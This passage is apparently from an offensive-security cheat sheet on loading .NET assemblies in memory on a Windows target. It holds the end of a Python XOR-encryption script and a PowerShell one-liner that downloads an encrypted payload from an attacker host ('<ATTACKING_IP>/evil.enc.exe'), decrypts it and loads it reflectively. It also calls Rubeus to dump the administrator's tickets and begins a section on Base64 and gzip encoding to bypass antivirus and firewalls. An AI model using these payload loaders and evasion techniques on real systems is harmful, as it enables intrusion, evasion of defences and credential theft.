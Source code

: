 ```python

    with open(input_file_path, "rb") as input_file:
        binary_data = input_file.read()

    decrypted_data = xor_encrypt(binary_data, xor_key)

    with open(output_file_path, "wb") as output_file:
        output_file.write(decrypted_data)

if __name__ == "__main__":
    main()
```
{% endcode %}

```bash
$ python3 xor_encrypt.py
```

On the Windows Tartget, decrypt and load the .NET assembly

```powershell
#Create WebClient object, set a custom User-Agent, configure default proxy & credentials if any
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials

#Download the assembly
$k="MySuperSecretKey";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("http://<ATTACKING_IP>/evil.enc.exe")))|%{$_-bxor$k[$i++%$k.length]}

#Load it
[System.Reflection.Assembly]::Load($b) | Out-Null
```

Now, we can call methods from this assembly

```powershell
#Call your function
[Do.The]::thing()

#Call your function with parameters
$parameters=@("arg1", "arg2")
[Do.The]::thing($parameters) 

#An other example
[Rubeus.Program]::Main("dump /user:administrator".Split())
```
{% endtab %}

{% tab title="Base64 + Gzip" %}
To bypass AV signature and Firewalls analysis, we can Base64 encode + gzip-compress our .NET executable before loading it as follow:

Use the following powershell script to encode and compress the .NET assembly (change the binary path)&#x20;
